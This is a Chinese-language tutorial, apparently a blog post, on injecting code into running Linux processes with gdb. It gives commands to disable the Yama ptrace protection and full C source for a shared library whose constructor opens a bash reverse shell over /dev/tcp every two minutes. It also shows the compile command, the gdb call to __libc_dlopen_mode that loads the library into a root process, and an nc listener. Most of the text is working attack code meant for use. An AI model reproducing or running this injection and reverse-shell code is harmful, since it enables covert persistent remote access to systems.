

### 注入步骤

（1）linux 中的Yama模块会禁用ptrace-based代码注入，需要将其关闭

```
echo 0 > /proc/sys/kernel/yama/ptrace_scope # 允许任何进程注入代码到相同用户启动的进程中,root用户可以注入所有进程

echo 2 > /proc/sys/kernel/yama/ptrace_scope # 只允许root用户注入代码

```

（2） 要注入的代码callback.c：

```
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

#define SLEEP  120                    /* Time to sleep between callbacks */
#define CBADDR "127.0.0.1"           /* Callback address */
#define CBPORT "4444"                 /* Callback port */

/* Reverse shell command */
#define CMD "echo 'exec >&/dev/tcp/"\
            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash"

void *callback(void *a);

__attribute__((constructor)) /* Run this function on library load */
// 在动态库加载之后运行该函数
void start_callbacks(){
        pthread_t tid;
        pthread_attr_t attr;

        /* Start thread detached */
        if (-1 == pthread_attr_init(&attr)) {
                return;
        }
        if (-1 == pthread_attr_setdetachstate(&attr,
                                PTHREAD_CREATE_DETACHED)) {
                return;
        }

        /* Spawn a thread to do the real work */
        pthread_create(&tid, &attr, callback, NULL);
}

/* callback tries to spawn a reverse shell every so often.  */
void *
callback(void *a)
{
        for (;;) {
                /* Try to spawn a reverse shell */
                system(CMD);
                /* Wait until next shell */
                sleep(SLEEP);
        }
        return NULL;
}

```

编译成动态链接库：
```
cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared
```

（3）切换到root用户，列出root用户进程

```
ps -fxo pid,user,args | egrep -v ' \[\S+\]$'
```

选择想要注入的进程pid，使用gdb进行注入

```
echo 'print __libc_dlopen_mode("/root/libcallback.so", 2)' | gdb -p pid
```

用gdb打开进程，并且用__libc_dlopen_mode打开要注入的动态链接库，

（4）开启另外的终端，监听本地的4444端口

```
nc -nvl 4444 
```

### 注入效果



### 参考链接

https://magisterquis.github.io/2018/03/11/process-injection-with-gdb.html

